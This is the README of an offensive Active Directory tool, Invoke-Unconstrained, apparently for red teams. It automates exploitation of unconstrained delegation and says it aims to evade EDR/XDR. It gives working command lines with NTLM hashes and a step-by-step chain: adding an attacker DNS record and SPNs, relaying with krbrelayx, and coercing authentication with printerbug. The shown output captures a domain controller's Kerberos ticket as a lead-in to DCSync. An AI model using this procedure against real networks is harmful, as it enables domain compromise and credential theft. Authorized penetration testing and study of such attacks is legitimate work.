 # Invoke-Unconstrained  
The Invoke-Unconstrained tool automates the exploitation of a compromised machine with unconstrained delegation.

The idea of this tool is to fully automate the exploitation of unconstrained delegation without relying on domain joined machines in order to avoid EDRs or XDRs.  
Several ways can be used to accomplish this task, but they have many steps and are complicated to understand, so the purpose of that tool is to automate the whole steps to compromise a machine using unconstrained delegation issue.  
Additionally, a snapshot of the old state is created to revert changes after the exploitation process.  
This Invoke-Unconstrained tool is based on the `impacket` library which allows attacker to launch that tool from linux-based OS, and also support the same default authentication methods as configured on the impacket library.

### How to Use  
The tool supports multiple authentication methods, including plain-text passwords, NTLM hashes, and Kerberos tickets.


#### General Arguments:  
`-u` - Specify username (The domain should be provided with a backslash, e.g., `LAB\DEG$`).  
`-t` - Specify Vunlerable target.  
`-ah` - Specify a non-exists DNS record that will be point to the attacker-controlled IP Address.  
`-aip` - Specify the controlled attacker IP address that will be added under the attacker's DNS record. 
`-p` - Specify plaintext/NTLM password matched to the username.  
`-k` - Force Kerberos authentication.

Sucessfull output will look as follows:  

The following proof of concept illustrates performing unconstrained delegation attack using NTLM hash using the DEG machine account on the lab domain:  
During the automation process, the tool creates a new DNS record controlled by the attacker (`ATT28.labs.local` -> `10.0.0.12`) to the domain controller (`10.0.0.5`).  
This automation involves LDAP authentication, afterwards, the tool adds new SPNs according to the newly-created DNS record (the `ATT28` attacker host which was added to the `msds-additionaldnshostname` attribute of the `DEG$` machine account).

  
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT28.labs.local -aip 10.0.0.12  10.0.0.5
```
![Pasted image 20231025191014](https://github.com/ScorpionesLabs/Invoke-Unconstrained/assets/50461376/1cd0b85c-61be-40ea-8540-036210585631)

#### Reverting Changes:
Among red teams, we believe that the cleanup process is required after an attack. This feature will roll back all changes to the way they were before the attack.  

The following example shows how to rollback changes that performed on the victim user to the original state.
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -r .\DEG-2023-10-17--18-20-42.961041 10.0.0.5
```

As can be seen above, on each exploitation, a state file is created which shows that changes made that needs to reverted, including target, SPNs, and DNS records added.  

#### Full Exploitation: 

Step 1:  
```bash
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT30.labs.local -aip 192.168.117.134 192.168.117.131
```
Step 2 \(This step get executed automatically if you are on Linux, you might need to use aesKey if kerberos encrypts ticket with that\): 
```bash
python3 krbrelayx.py -hashes aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc
[*] Servers started, waiting for connections
```

Step 3:
```bash
python3 printerbug.py LABS/DEG\$@192.168.117.131 -hashes aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc ATT30.labs.local
[*] Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at 192.168.117.131
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

Step 4: 
```bash
[*] SMBD: Received connection from 192.168.117.131
[*] Got ticket for DC01$@LABS.LOCAL [krbtgt@LABS.LOCAL]
[*] Saving ticket in DC01$@LABS.LOCAL_krbtgt@LABS.LOCAL.ccache
```


After the fourth step, we have obtained a ticket of the domain controller and now we can perform a DCSync attack.  


### Credits

1. Omri Baso From [Scorpiones Labs](https://www.scorpiones.io/).  
2. Some of the code snippets were taken from the [krbrelayx](https://github.com/dirkjanm/krbrelayx/tree/master) Project.  
